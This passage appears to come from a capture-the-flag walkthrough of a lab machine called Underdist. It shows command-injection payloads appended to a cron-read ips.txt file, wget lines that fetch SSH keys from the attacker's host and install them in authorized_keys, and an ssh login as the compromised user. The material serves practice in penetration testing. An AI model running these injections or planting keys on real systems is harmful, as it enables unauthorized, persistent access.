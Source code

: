 ![evidence](./static/15-pspy.png)

And it does it every minute, when I test the injection, and I append the following payload to the `ips.txt` file:
```shell
echo "junk || touch /tmp/test #" >> ips.txt
```
And I check the `/tmp` directory, then I can see the `test` file created by `undersdist`:
```shell
...SNIPPED...
-rw-r--r--  1 underdist underdist    0 Feb  4 14:58 test
...SNIPPED...
```
And now, I could do a reverse shell, but to practice something different, then I am going to add `ssh` keys to the user `underdist`. When I generate the keys on my local machine the `ssh-keygen` command:
```shell
$ ssh-keygen -t rsa -b 4096 -f ./id_rsa_underdist -P "" \
> -C "underdist@Underdist"
```
And I open an `HTTP` service with Python3:
```shell
$ python3 -m http.server 8000
```
And I open the file `ips.txt` with `nano`, And I add the following payload:
```shell
junk || wget -O ~/.ssh/id_rsa 192.168.2.31:8000/id_rsa_underdist #
junk || wget -O ~/.ssh/id_rsa.pub 192.168.2.31:8000/id_rsa_underdist.pub #
junk || chmod 400 ~/.ssh/id_rsa #
junk || cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys #
```
And I wait a minute until I can see the request in the `HTTP` access log, and I copy and change the permission of the private key:
```shell
$ cp id_rsa_underdist id_rsa_under
$ chmod 400 id_rsa_under
```
And I use the `ssh` command:
```shell
$ ssh -i id_rsa_under underdist@192.168.2.38
```
Then I get the `underdist`'s shell:
